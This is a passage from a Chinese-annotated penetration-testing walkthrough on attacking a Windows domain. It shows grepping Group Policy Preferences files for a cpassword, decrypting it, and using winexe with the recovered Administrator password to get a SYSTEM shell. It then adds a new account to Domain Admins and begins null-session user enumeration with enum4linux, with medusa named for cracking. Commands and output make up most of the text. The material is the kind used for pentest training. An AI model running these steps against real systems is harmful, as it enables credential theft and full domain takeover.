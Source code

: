 Once the files are downloaded, grep through both policies and scripts for Administrator or cpassword (either would work in this instance):

```
grep -ri administrator .
grep -ri cpassword .

~/work/nmap/192.168.1.0-24/downloads/Policies# grep -ri administrator . 
./{FC71D7SS-51E2-4B9D-B261-GB8C9733D433}/Machine/Preferences/Groups/Groups.xml: :<Groups clsid="{3125E277-EB16-4b4c-6534-544FC6D24D26}"><User clsid="{HH5F1654-51E6-4d24-9B1A-D9BFN34BA1D1}" name="Administrator (built-in)" image="2" changed="2012-12-30 12:47:25" uid="{8E2D5E22-E914-438F-SS5D-FDDA92925BB7}" userContext="0" removePolicy="0"><Properties action="U" newName="" fullName="" description="" cpassword="j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw" changeLogon="0" noChange="0" neverExpires="0" acctDisabled="0" subAuthority="RID_ADMIN" userName="Administrator (built-in)"/></User> 
```

The cpassword is taken and run through the decryption script from http://carnal0wnage.attackresearch.com/2012/10/group-policy-preferences-and-getting.html.

```
~/work# ruby decrypt.rb    <--解密
Local*P4ssword!

~/work/nmap# ~/SpiderLabs/winexe-PTH -U MIRKWOOD\\’Administrator%Local*P4ssword!’ --uninstall --system //192.168.1.103 cmd.exe      <-- winexe 和 win 下经典工具 psexec 效果一样一样的

Microsoft Windows [Version 5.2.3790] 
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32> net user twadmin $piD3rsRul3! /add /domain 
The request will be processed at a domain controller for domain MIRKWOOD.

The command completed successfully.

C:\WINDOWS\system32>net group "Domain Admins" twadmin /add /domain net group "Domain Admins" twadmin /add /domain 
The request will be processed at a domain controller for domain MIRKWOOD.

The command completed successfully. 
```

## 5.NetBIOS Null Enumeration Allowed on Server

* * *

其实就是说,域服务器,允许你空会话连接,然后列举账户信息,然后在破解账户,LINUX 下用 enum4linux.pl 遍历用户,用 medusa 破解帐号,用 winexec 连接执行命令.WIN 下的话,<<黑客大曝光>>查点那章看过木?

```
~/enum4linux.pl -u Legolas -p orcs -w MIRKWOOD -a 192.168.1.90 >> enum-192.168.1.90

~/work/targets/192.168.1.0-24# cat enum-192.168.1.90 
Starting enum4linux v0.8.7 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Sep 10 10:15:14 2013
========================== 
| Target Information | 
========================== 
Target ........... 192.168.1.90 
RID Range ........ 500-550,1000-1050 
Username ......... '' 
Password ......... '' 
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

=================================================== 
| Enumerating Workgroup/Domain on 192.168.1.90 | 
=================================================== 
[+] Got domain/workgroup name: MIRKWOOD
```